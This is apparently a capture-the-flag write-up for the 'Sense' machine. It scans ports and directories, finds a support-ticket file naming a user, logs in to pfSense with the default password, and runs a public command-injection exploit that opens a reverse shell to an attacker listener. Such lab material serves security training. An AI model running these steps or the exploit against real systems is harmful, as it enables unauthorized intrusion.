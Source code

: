 # Sense

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.96 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 07:48 EDT
Nmap scan report for 10.129.85.96
Host is up (0.0088s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

2 ports that are open.

### pfSense Creds + RCE

Visiting the IP address redirects us to port 443 where pfSense is running:

<figure><img src="../../../.gitbook/assets/image (3534).png" alt=""><figcaption></figcaption></figure>

We can run a `dirbuster` scan to see what else is on the port because we have no credentials right now. We can include all the common extensions using `-e php,html,txt` to see all possible files on the machine.

```bash
$ dirbuster -u https://10.129.85.96/ -t 20 -l /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e php,txt,html
<TRUNCATED>
File found: /edit.php - 200
File found: /license.php - 200
File found: /system.php - 200
File found: /status.php - 200
File found: /changelog.txt - 200
File found: /exec.php - 200
File found: /graph.php - 200
Dir found: /tree/ - 200
File found: /tree/index.html - 200
File found: /tree/tree.js - 200
File found: /wizard.php - 200
File found: /pkg.php - 200
Dir found: /installer/ - 302
File found: /installer/index.php - 302
File found: /installer/installer.php - 200
File found: /xmlrpc.php - 200
File found: /reboot.php - 200
File found: /interfaces.php - 200
FIle Found: /system-users.txt - 200
```

One of them is called `system-users.txt`. The file contains this:

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

So the username is Rohit and the password is the default password. In this case, the default password for this software is `pfsense`. We can then login and see the version running:

<figure><img src="../../../.gitbook/assets/image (187).png" alt=""><figcaption></figcaption></figure>

This is an outdated version of pfSense running, and it is vulnerable to an RCE exploit.

```
$ searchsploit pfsense 2.1.3
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injec | php/webapps/43560.py
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We can download this exploit and use it to get a reverse shell.

```bash
python3 43560.py --rhost 10.129.85.96 --lhost 10.10.14.13 --lport 4444 --username rohit --password pfsense
```

<figure><img src="../../../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
